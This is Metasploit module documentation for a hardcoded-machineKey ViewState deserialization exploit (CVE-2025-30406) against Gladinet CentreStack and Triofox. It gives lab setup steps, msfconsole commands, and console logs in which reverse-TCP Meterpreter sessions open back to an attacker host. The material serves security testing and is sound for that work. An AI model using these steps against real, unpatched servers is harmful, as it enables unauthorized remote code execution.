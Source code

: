 ## Vulnerable Application
A vulnerability in Gladinet CentreStack and Triofox application using hardcoded cryptographic keys for ViewState
could allow an attacker to forge ViewState data.
This can lead to unauthorized actions such as remote code execution.
Both applications make use of a hardcoded machineKey in the IIS web.config file, which is responsible for securing
ASP.NET ViewState data. If an attacker obtains the machineKey, they can forge ViewState payloads that pass integrity checks.
This can result in ViewState deserialization attacks, potentially leading to remote code execution (RCE) on the web server.

* Gladinet CentreStack versions up to 16.4.10315.56368 are vulnerable (fixed in 16.4.10315.56368).
* Gladinet Triofox versions up to 16.4.10317.56372 are vulnerable (fixed in 16.4.10317.56372)

The following releases were tested.

**Gladinet CentreStack and Triofox:**
* Gladinet CentreStack Build 16.1.10296.56315 on Windows Server 2019
* Gladinet Triofox Build 16.1.10296.56315 on Windows Server 2019

## Installation steps to install Gladinet CentreStack or Triofox Enterprise Editions
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download an evaluation Windows Server iso image (2016, 2019 or 2022) and install it as a VM on your virtualization engine.
* Note: Google is your best friend on how to do this ;-)
* Download the [Gladinet CentreStack gui installer](https://www.centrestack.com/p/gce_latest_release.html) or...
* Download the [Gladinet Triofox gui installer](https://access.triofox.com/releases_history/).
* Note: For Triofox, you will need a free trail account to reach the installer page.
* Run the gui installer on your Windows VM.
* Reboot your VM and you should be able to access the application via `https://your_ip/portal/loginpage.aspx`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/gladinet_viewstate_deserialization_cve_2025_30406`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Windows Command>`
- [ ] `exploit`
- [ ] you should get a `shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options defined for this module.

## Scenarios
### Gladinet CentreStack Build 16.1.10296.56315 on Windows Server 2019 -  Windows Command target
```msf
msf6 > use exploits/windows/http/gladinet_viewstate_deserialization_cve_2025_30406
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf6 exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. CentreStack (Build 16.1.10296.56315)
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
[*] Sending stage (203846 bytes) to 192.168.201.5
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.5:49897) at 2025-05-02 20:36:56 +0000

meterpreter > getuid
Server username: IIS APPPOOL\portal
meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter >
```
###  Gladinet Triofox Build 16.1.10296.56315 on Windows Server 2019 - Windows Command target
```msf
msf6 exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Triofox (Build 16.1.10296.56315)
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
[*] Sending stage (203846 bytes) to 192.168.201.6
[*] Meterpreter session 4 opened (192.168.201.8:4444 -> 192.168.201.6:56815) at 2025-05-02 19:55:59 +0000

meterpreter > getuid
Server username: IIS APPPOOL\portal
meterpreter > sysinfo
Computer        : WIN-HHRQENPDSRS
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EVIL
Logged On Users : 14
Meterpreter     : x64/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter >
```
## Limitations
No limitations identified.

